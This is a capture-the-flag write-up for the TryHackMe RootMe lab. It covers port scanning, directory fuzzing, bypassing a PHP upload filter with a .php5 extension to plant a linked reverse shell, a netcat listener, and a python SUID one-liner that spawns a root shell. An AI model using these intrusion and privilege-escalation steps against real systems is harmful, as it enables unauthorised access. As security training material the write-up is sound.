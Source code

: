 We started with a port scan using nmap :
```
nmap 10.10.188.206 -p-
```
![Image Alt](https://github.com/kcoainnapo/Tryhackme/blob/main/RootMe/Images/nmap.png?raw=true)

We see there is 2 ports open : 
- 80 http
- 22 ssh

What version of Apache is running?

Apache 2.4.29
```
curl http://10.10.188.206 -I
```
![Image Alt](https://github.com/kcoainnapo/Tryhackme/blob/main/RootMe/Images/apache-version.png?raw=true)

We fuzz the website using ffuf and find the directory /panel that allow to upload files as well as the /uploads directory where files are registered once they are succesfully uploaded :

![Image Alt](https://github.com/kcoainnapo/Tryhackme/blob/main/RootMe/Images/fuzz.png?raw=true)

Now we want to upload a file that will give us our initial access on the target system to be able to execute commands.

We copy the content of the php reverse shell in : https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php in a file called rev.php

Once we tried to upload it in http://10.10.188.206/panel/ we have the following error telling us that php is not allowed : 

![Image Alt](https://github.com/kcoainnapo/Tryhackme/blob/main/RootMe/Images/php-error.png?raw=true)

After some research we find that it exists different php extension : 

![Image Alt](https://github.com/kcoainnapo/Tryhackme/blob/main/RootMe/Images/php-extension.png?raw=true)

We were able to upload our file when we renamed it rev.php3 but once we clicked on it we had an error message.

But once we renamed it rev.php5 we were able to obtain our intial access, we started a netcat listener with :

```
nc -lvnp 1234
```

We click on our uploaded file "rev.php5" in http://10.10.188.206/uploads/ and we obtain our intial access :

![Image Alt](https://github.com/kcoainnapo/Tryhackme/blob/main/RootMe/Images/initial-access.png?raw=true)

We can find the user.txt file with this command : 


We enumerate the system to find privilege escalation vectors, we use the following command to find SUID binary : 
```
find / -perm -04000 2>/dev/null
```
And we came accross : 
```
/usr/bin/python
```
We can go to https://gtfobins.github.io/gtfobins/python/ and use the following command to elevate our privileges and obtain the roor flag : 
```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
![Image Alt](https://github.com/kcoainnapo/Tryhackme/blob/main/RootMe/Images/root-flag.png?raw=true)



